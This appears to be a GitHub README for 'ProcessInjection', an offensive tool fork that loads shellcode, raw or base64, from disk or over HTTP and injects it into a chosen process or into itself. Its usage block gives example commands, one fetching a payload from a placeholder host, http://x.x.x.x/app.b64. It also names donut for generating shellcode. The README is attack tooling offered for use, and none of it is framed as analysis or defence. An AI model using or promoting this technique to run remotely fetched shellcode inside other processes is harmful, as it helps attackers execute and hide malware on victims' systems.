 # ProcessInjection

This fork of process injection allows for dynamically pulling shellcode (in bin or base64 format) from either the disk or over HTTP as opposed to embedding the shellcode in the binary.

### Usage 

```
Usage: ProcessInjection.exe <pid|self> <binlocation> <bintype>");
    Example: ProcessInjection.exe self http://x.x.x.x/app.b64 b64");
    Example: ProcessInjection.exe 1000 C:\Temp\app.bin bin");
```
Supported targets: Primarily, you'll want to target a process via the PID. However, it is possible to just inject into the ProcessInjection.exe process itself by using the value "self".
Supported bintypes: "b64" for base64 encoded ShellCode and "bin" for raw/binary ShellCode.
Supported binlocations: Any value that starts with `http://` or `https://` is pulled over HTTP(s). Any other value is assumed to exist on disk (or readable off a shared drive).

Shellcode can be generated via donut: https://github.com/TheWover/donut
